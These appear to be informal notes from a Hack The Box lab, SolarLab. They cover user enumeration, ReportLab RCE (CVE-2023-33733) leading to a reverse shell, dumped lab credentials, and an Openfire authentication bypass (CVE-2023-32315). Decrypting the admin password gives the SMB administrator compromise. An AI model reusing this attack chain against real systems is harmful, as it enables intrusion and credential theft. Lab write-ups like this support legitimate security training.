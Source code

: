 ___


in the custom js functions there r some interesting endpoints


report sub domain has login page

found passes on share -> they don't work on login page -> windows httpapi or winrm ports not open



*could try those creds on RPC* -> dump info

gonna start looking at those endpoints


*this is blakes username on the report portal*
BlakeB


if user exists it gives you auth error -> if user doesn't gives u user not found on login portal




BlakeB -> this logs into portal
ThisCanB3typedeasily1@




can submit jpgs/data and pdf is generated

# CVE-2023-33733: RCE Vulnerability in ReportLab PDF Toolkit

Find Arctic Wolf’s recommendations for CVE-2023-33733: RCE Vulnerability in ReportLab PDF Toolkit.


got a rev shell <- !!!


used a powershell script as well as the exp.py



*got other user passes*

sqlite> select * from user;
1|blakeb|ThisCanB3typedeasily1@
2|claudias|007poiuytrewq
3|alexanderk|HotP!fireguard


*more creds kinda* not rlly
1|BlakeB|BlakeB
2|ClaudiaS|ClaudiaS
3|AlexanderK|ClaudiaS
4|blakeb|ThisCanB3typedeasily1@
5|claudias|007poiuytrewq
6|alexanderk|HotP!fireguard




*6791 maps to port 5000 internally*


  location / {
            if ($host != "report.solarlab.htb") {
                rewrite ^ http://report.solarlab.htb:6791$request_uri permanent;
            }
            # Proxy requests to http://127.0.0.1:5000
            proxy_pass http://127.0.0.1:5000;




*port 80 maps to solarlab.htb*


openfire is running on this what is the managemen port


netstat -a



*http admin page is here*

wget http://127.0.0.1:9090     


*ver*
Openfire, Version: 4.7.4




*vulnerable to this*
# Ignite.Realtime.Openfire.CVE-2023-32315.Authentication.Bypass



*rce can be achieved by plugin upload*
https://github.com/miko550/CVE-2023-32315



*got rce as solarlab/openfire user*
<foo><bar>Secr3t$tr1ng!</bar></foo>



#HSQL Database Engine 2.4.1
#Mon Sep 01 23:25:13 EEST 2025
version=2.4.1
modified=yes
tx_timestamp=0



Openfire bundles hsqldb as its embedded database

so its using embedded database so how do i connect to hsql




*found this on openfire.script to set up the database *

INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')



becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442


 *I think this the table*
CREATE MEMORY TABLE PUBLIC.OFUSER(USERNAME VARCHAR(64) NOT NULL,STOREDKEY VARCHAR(32),SERVERKEY VARCHAR(32),SALT VARCHAR(32),ITERATIONS INTEGER,PLAINPASSWORD VARCHAR(32),ENCRYPTEDPASSWORD VARCHAR(255),NAME VARCHAR(100),EMAIL VARCHAR(100),CREATIONDATE VARCHAR(15) NOT NULL,MODIFICATIONDATE VARCHAR(15) NOT NULL,CONSTRAINT OFUSER_PK PRIMARY KEY(USERNAME))



*whta is this*

INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)



*this finally worked for me*
java OpenFireDecryptPass becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442 hGXiFzsKaAeYLjn
ThisPasswordShouldDo!@ (hex: 005400680069007300500061007300730077006F0072006400530068006F0075006C00640044006F00210040)
You have new mail.  



I was using the  wrong password for decryption it was in a separate entry in the script password with the name -> 

INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)



nxc smb solarlab.htb -u 'administrator' -p 'ThisPasswordShouldDo!@' 
SMB         10.10.11.16     445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\administrator:ThisPasswordShouldDo!@ (Pwn3d!)



used smbexec.py and then did a powershell rev shell for better shell got root though

